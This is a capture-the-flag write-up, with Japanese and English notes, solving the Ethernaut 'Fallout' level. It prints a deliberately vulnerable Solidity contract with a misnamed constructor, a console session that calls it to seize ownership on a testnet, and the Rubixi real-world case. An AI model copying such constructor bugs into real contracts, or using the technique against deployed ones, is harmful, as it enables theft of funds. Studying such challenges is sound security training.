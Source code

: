 ## Ethernaut-solution
---

### 2.FallOut

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
'0x0000000000000000000000000000000000000000'<br>
player<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

contract.abi<br>
(6) [{…}, {…}, {…}, {…}, {…}, {…}]<br>
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。

0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
length: 6<br>
[[Prototype]]: Array(0)<br>

//contract作成。everybody is gonna be owner! 

contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 <br>
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c

await contract.owner()<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'<br>
player<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

---
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.